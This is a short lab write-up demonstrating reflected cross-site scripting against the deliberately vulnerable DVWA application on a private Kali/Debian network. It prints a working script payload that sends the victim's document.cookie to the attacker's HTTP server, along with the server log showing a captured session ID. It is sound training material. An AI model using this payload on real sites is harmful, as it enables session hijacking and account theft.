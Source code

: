 **File 1: `xss_reflected.md`**

````markdown
# XSS Reflected - DVWA

**Environment:**  
- Attacker: Kali Linux (192.168.20.11)  
- Victim: Debian (192.168.20.12)  
- DVWA Security Level: Low  

---

## Steps

1. On Kali, start a simple HTTP server on port 8000:
   ```bash
   python3 -m http.server 8000
````

2. On Debian (victim), enter the following payload in DVWA XSS (Reflected) module:

   ```html
   <script>new Image().src="http://192.168.20.11:8000/?cookie="+document.cookie;</script>
   ```
3. Submit the form.

---

## Result

On Kali, the HTTP server logs the captured cookie:

```
192.168.20.12 - - [16/Aug/2025 15:39:27] "GET /?cookie=security=low;%20PHPSESSID=hn4oqhg5fhsjiatac6k33n9trb HTTP/1.1" 304 -
```

**Observation:**

* The payload executes immediately when the victim interacts with the malicious input.
* Cookies and session tokens can be captured by the attacker.
* Reflected XSS requires victim interaction (clicking a link or submitting a form).


